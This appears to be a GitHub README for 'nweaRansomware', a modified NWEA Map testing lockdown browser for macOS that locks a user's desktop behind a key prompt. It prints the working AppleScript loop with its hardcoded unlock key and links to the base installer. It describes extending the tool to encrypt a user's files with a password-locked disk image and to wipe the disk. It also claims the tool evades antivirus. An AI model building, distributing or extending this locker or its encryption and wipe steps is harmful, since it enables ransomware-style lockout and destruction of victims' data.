 ## About nweaRansomware:
This program is a modified version of the lock down testing browser used for Map testing.
NweaRansomware was built off of was v4.0.0.3.
It will lock the usr's desktop, making it impossible for the user to quit the program without entering the key.
This issue was originally discovered when trying to remove scripts that blocked window switching.

## Live Key:
Emergency Key(if all goes wrong) go to this url(https://www.projectzevo.com/knwea)

## Capabilities:
1. nweaRansomware is capable of more than locking a usr's desktop.
2. During my experimenting, I found it is possible to encrypt a usr's files via disk utility.
This can be done with a couple lines of code that will automate the processes of making a new folder,
moving all desktop files into it, and creating a new disk image with a predetermined password to lock it.
3. It is also possible to run a automated terminal command to wipe the users disk,
erasing all data.
4. These versions of nweaRansomware will not be available to the public

## What has been modified?:
Nothing, only eight lines of code have been added.
Code added to "QuitProcesses.applescript":


repeat
	set protectCode to display dialog "!Your laptop is locked! !Enter Key!" default answer "" buttons {"Unlock With Key"}
	
	if text returned of protectCode is "ioZevo#^Github" then
	
		tell application "nwea browser exploited"
		
			quit
			
		end tell
	
	end if
	
end repeat

Sadly NWEA has done a horrible job of securing their code, making it easy to convert their program
into simple Ransomeware. The Sparkle framework, which includes a function to check if code has been
changed, fails to prevent the program from launching.

## Is it detectable by anti-virus programs?:
No it is not, no anti-virus has stopped it from running or marked it as malware.
MacOS does not give any warnings, as soon as the application is launched,
the text box asking for a key will appear.

## Terms and Agreements:
When you launch nweaRansomware you agree to the following:
ioZevo(https://github.com/iozevo) is not responsible for anything that
happens to your computer files, hardware, and data. DO NOT contact me for
compensation funds, you will be blocked.

## Bugs:
Usr can still move items around on desktop, but still can not open any apps.

## Safety precautions:
1. Write down the key included in the "key.txt" file on a piece of paper.
   If you enter it correctly, the program will quit.
2. Keep a force-quit tab open to quit it.
3. DO NOT change the name of the program!
4. If all goes wrong do crtl+cmd+pwr-button. Next hold shift down and boot into safe mode to delete the program.

## Downloads:
v4.0.0.3: https://teach.mapnwea.org/contents/partner/Lockdown%20Browser.dmg
